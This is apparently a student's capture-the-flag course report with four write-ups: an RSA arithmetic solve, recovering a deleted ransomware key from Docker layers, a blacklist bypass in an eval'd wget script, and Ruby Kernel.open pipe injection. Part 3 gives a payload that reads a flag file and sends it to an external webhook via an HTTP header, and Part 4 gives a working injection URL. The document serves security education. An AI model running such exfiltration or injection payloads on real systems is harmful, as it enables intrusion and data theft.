



<div style="display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh;">

  <h2>CITS1003 Project Report</h2>

  <p>Student ID: [Student ID]</p>
  <p>Student Name: [First and Surname]</p>

</div>

# Part 1 - Crypto

## Meowlleable RSA

### Step 1

I opened the provided files challenge.py and solve_template.py and searched for the values the challenge gave. The template and comments show the decrypted integer m and a value x. The file explicitly shows the relation used to build m:

```text
m = (flag + 2025) * x**2
x = 1337
# m is the large integer provided by the challenge
```

Why this matters: there is no modular wraparound here. m is a plain integer equal to (flag + 2025) times x squared. That means standard integer arithmetic will recover flag.

### Step 2

Rearrange the formula to isolate flag and choose the right operations.
Math:

```text
m = (flag + 2025) * x**2
=> flag + 2025 = m / x**2
=> flag = (m // (x**2)) - 2025
```

Why integer division //: m and x are integers and x**2 divides m exactly. Using // avoids floating point rounding and returns an integer.

### Step 3

Implement and run the minimal script. I used the exact values from the template and converted the resulting integer to bytes.

Script (while i could have just pasted into the provided template at line 23, I chose to instead save it into a new python file):

```python
from Crypto.Util.number import long_to_bytes

x = 1337
m = 75867975262137437190884697927628570501483722308586360649088491747991230253660794320983243053702

# line completed
flag_int = (m // (x**2)) - 2025

# convert to bytes and print
print(long_to_bytes(flag_int).decode())
```

Command I ran:

```bash
python3 solve.py
```

What this does, plainly:

* Divide m by x squared to undo the multiplication.
* Subtract 2025 to undo the addition.
* Convert the integer to bytes and decode to UTF-8 to reveal the flag.

### Result


#### Flag Found

```bash
UWA{y0u_br0k3_mY_R54_3nCryP7i0n_:(((}
```

# Part 2 - Forensics

## The Cats Have Docked In

### Step 1

I pulled the provided Docker image and prepared to inspect it for artifacts that could recover the encrypted flag.

```bash
sudo docker pull jsun1590/fluffy-gang:latest
```

Why this matters: the ransomware was executed from a Docker image; Docker images are layered and earlier layers can contain files that were later deleted (such as private keys). Pulling the image gives access to those layers for offline inspection.

### Step 2

I inspected the image history and layer metadata to find which layer created the RSA private key and which layer deleted it.

```bash
docker history --no-trunc jsun1590/fluffy-gang:latest
docker inspect jsun1590/fluffy-gang:latest --format '{{json .RootFS.Layers}}' | python -m json.tool
```

What I found: the image created `ransomkey.pem` in an early layer and deleted it later. The layer containing the private key was identified as:

```text
sha256:66dab87c595eaa1232c5ff284376308292f621952850b629da2708169758beaf
```

Why this matters: extracting that specific layer yields the private key file that was deleted in subsequent layers.

### Step 3

I saved the Docker image to a tar archive and extracted the layer blob corresponding to the identified SHA256 layer.

```bash
docker save jsun1590/fluffy-gang:latest -o fluffy-gang-ransom.tar
mkdir -p /tmp/fluffy-extract /tmp/fluffy-layer
tar -C /tmp/fluffy-extract -xvf fluffy-gang-ransom.tar
tar -C /tmp/fluffy-layer -xvf /tmp/fluffy-extract/blobs/sha256/66dab87c595eaa1232c5ff284376308292f621952850b629da2708169758beaf
```

Result (example output):

```text
etc/
not-a-malware/
not-a-malware/ransomkey.pem
```

Why this matters: the extracted layer contains `not-a-malware/ransomkey.pem`, the RSA private key we need to decrypt `flag.enc`.

### Step 4

I copied the recovered private key to a safe local directory, restricted its permissions, and validated it with OpenSSL.

```bash
mkdir -p ~/fluffy_key
cp /tmp/fluffy-layer/not-a-malware/ransomkey.pem ~/fluffy_key/ransomkey.pem
chmod 600 ~/fluffy_key/ransomkey.pem
openssl rsa -in ~/fluffy_key/ransomkey.pem -check -noout
```

Validation output:

```text
RSA key ok
```

Why this matters: confirming the key is a valid RSA private key ensures it can be used for decryption.

### Step 5

I located the encrypted flag file and decrypted it using OpenSSL with PKCS#1 v1.5 padding.

```bash
# Example path where flag.enc was located in my environment
openssl pkeyutl -decrypt -inkey ~/fluffy_key/ransomkey.pem \
  -in ~/Downloads/flag.enc -pkeyopt rsa_padding_mode:pkcs1 \
  -out ~/Downloads/flag.txt

cat ~/Downloads/flag.txt
```

### Result



#### Flag Found

```bash
UWA{bu7_1_d3L3t3D_tH3_3nCryPt10n_k3Y???/1!}
```

# Part 3 - Linux and Networking

## Schrödinger’s Box #4

### Step 1

I inspected `/home/supervisor/runner.sh` (the script the supervisor runs as `nova`) and noted these important facts:

* The script reads a single line of user input into `user_input`.
* It runs two simple blacklist checks on the **literal input string** for a set of blacklisted characters and words
* Finally it executes:

```bash
eval wget $user_input > /dev/null 2>&1
```

Key implication: `eval` will perform shell expansions and command substitution **after** the blacklist checks — so anything that *does not literally* contain banned substrings can still expand into banned strings at runtime (globs, command substitution, etc.). The script runs `wget` as `nova` (via `sudo -u nova`), so any file readable by `nova` can be accessed by the substitution.

### Step 2

Exfiltrate the flag by making `wget` send it to an external URL. `wget` accepts custom HTTP headers via `--header="Name: Value"`. If we can make the header value contain the flag (via command substitution and a glob that expands to `FLAG4.txt`), the remote webhook will receive the flag inside the request headers.

Constraints to satisfy:

* Input must **not** literally include `FLAG4.txt`, `cat`, `ls`, or any blacklisted characters.
* It must expand (when `eval` runs) into a command that reads `/home/nova/FLAG4.txt` and passes the contents to `wget` as a header.
* The remote endpoint must record request headers (webhook.site does).

### Step 3

I used:

* A glob `/home/nova/F*` as the literal input contains `F*`, not `FLAG4.txt`, so blacklist passes; the shell will expand `F*` to `FLAG4.txt` at runtime.
* `$(grep -a . /home/nova/F*)` to read the file contents. `grep -a .` prints all bytes treating file as text (robust against binary/newline issues).
* `--header="X-Flag: $(...)"` so `wget` sends the flag in the `X-Flag` header.
* Destination: a webhook URL created at https://webhook.site to capture the request.

Input:

```text
--header="X-Flag: $(grep -a . /home/nova/F*)" https://webhook.site/d574cdb8-2385-4168-be47-0555fed77473
```

### Step 4

After that, I piped the input into the script exactly as the `supervisor` example in the challenge:

```bash
sudo -u nova /home/supervisor/runner.sh
```

and entered:

```bash
--header="X-Flag: $(grep -a . /home/nova/F*)" https://webhook.site/d574cdb8-2385-4168-be47-0555fed77473
```

Explanation:

* `printf '%s\n' '...payload...'` produces a single-line input identical to what the script expects.
* `sudo -u nova /home/supervisor/runner.sh` runs the script as `nova`, which is necessary since the flag is in nova's home.

### Result




#### Flag Found

```bash
UWA{pUrRrRRRRr3cT_35c4p3!11!1}
```

# Part 4 - Vulnerabilities

## Cats Love Rubies #2

### Step 1

I analyzed the web application structure and identified the vulnerable endpoint `/cats` which takes two parameters: `folder` and `file`. The application was displaying images and videos using these parameters in the HTML source:

```html

```

This pattern suggested the backend was likely using Ruby's `Kernel.open` or `File.open` method to serve these files, making it vulnerable to command injection through the pipe character `|` as hinted in the challenge description.

### Step 2

I recognized that Ruby's `Kernel.open` method has a dangerous feature - when the string passed to it starts with a pipe character `|`, it executes the rest of the string as a shell command rather than opening it as a file. The challenge hint specifically pointed to the Ruby documentation for `Kernel#open`, confirming this attack vector.

The key insight was that to exploit this, the entire string passed to `open()` needs to start with the pipe character. Looking at how the parameters were likely concatenated:

```ruby
open("#{params[:folder]}/#{params[:file]}")
```

I needed to make the `folder` parameter start with `|` so the final string would be `|command#/filename`.

### Step 3

I constructed the payload to inject the `getflag` command through the `folder` parameter while using URL encoding and comment characters to ensure proper execution:

```
/cats?folder=|getflag%20%23&file=anything
```

This payload works because:
- `|getflag` - The pipe character triggers command execution in `Kernel.open`
- `%20` - URL-encoded space to separate the command
- `%23` - URL-encoded `#` character to comment out the rest of the path (`/anything`)
- When Ruby processes this, it becomes: `open("|getflag #/anything")` where everything after `#` is treated as a comment

### Step 4

I accessed the vulnerable endpoint with the crafted payload:

```
http://34.87.251.234:8003/cats?folder=|getflag%20%23&file=test
```

The server executed the `getflag` command and returned the output as a file download named "cats", which contained the flag.

### Result



#### Flag Found

```bash
UWA{4R3_533_y33_w1th_0p3n????}
```
